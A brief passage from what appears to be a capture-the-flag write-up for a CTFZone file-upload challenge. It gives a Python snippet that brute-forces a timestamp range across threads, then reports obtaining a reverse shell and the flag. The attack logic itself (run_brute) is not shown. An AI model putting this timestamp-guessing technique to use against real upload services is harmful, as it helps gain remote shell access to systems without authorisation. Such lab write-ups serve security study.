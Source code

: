 ```python
response_time = 1661424636000
NUM_THREADS = 5

LIMIT = 1000 / NUM_THREADS
for n in range(NUM_THREADS):
    start = response_time + LIMIT * n
    end = start + LIMIT
    run_brute(range(start, end))
```

Running the script above, we got a reverse shell connection to our server and got the flag 

![success](success.png "CTFZone{B3_C4reful_w1th_F1l3upl04d_L1bs}")
